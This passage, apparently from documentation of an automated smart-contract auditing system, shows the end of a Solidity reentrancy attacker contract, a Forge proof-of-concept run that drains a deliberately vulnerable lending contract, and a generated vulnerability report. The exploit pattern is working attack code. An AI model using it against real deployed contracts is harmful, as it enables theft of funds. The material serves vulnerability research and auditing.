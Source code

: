 ```solidity
    function attack() external {
        vulnerableLending.withdraw(attackAmount);
    }
    
    // Fallback function that gets triggered when receiving ETH
    receive() external payable {
        if (address(vulnerableLending).balance >= attackAmount) {
            vulnerableLending.withdraw(attackAmount);
        }
    }
}
```

### 3.5.7 Runner Agent

The Runner Agent executes the generated exploit:

1. It runs the test using Forge: `forge test -vv --match-path exploit/src/test/PoC_reentrancy_1742307322.sol`
2. It captures the execution output showing the successful exploit
3. It confirms that the attacker contract successfully extracted more ETH than it deposited

Output snippet:
```
Running 1 test for exploit/src/test/PoC_reentrancy_1742307322.sol:ReentrancyTest
[PASS] testExploit() (gas: 175421)
Logs:
  Starting reentrancy attack demonstration
  Initial vulnerable contract balance: 10000000000000000000
  Initial attacker balance: 1000000000000000000
  Final vulnerable contract balance: 0
  Final attacker balance: 11000000000000000000
  Attacker ETH Balance Before exploit: 1000000000000000000
  Attacker ETH Balance After exploit: 11000000000000000000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.26s
```

### 3.5.8 Final Report

The system compiles the results into a comprehensive vulnerability report:

```
## Vulnerability #1: Reentrancy
Confidence: 0.92

### Reasoning:
The withdraw function in VulnerableLendingContract contains a classic reentrancy vulnerability. It performs an external call to msg.sender using call{value: amount}("") before updating the sender's balance with balances[msg.sender] -= amount. This allows an attacker to recursively call withdraw again before their balance is updated, potentially draining all funds from the contract.

### Validation:
The vulnerability is confirmed with high confidence. The withdraw function does indeed update the user's balance after making an external call, violating the checks-effects-interactions pattern. This is a textbook reentrancy vulnerability that would allow an attacker to recursively call withdraw before their balance is updated. The contract has no reentrancy guards or other protections against this attack.

### Code Snippet:
```solidity
function withdraw(uint256 amount) external {
    require(balances[msg.sender] >= amount, "Insufficient balance");
    
    // Vulnerable: state update after external call
```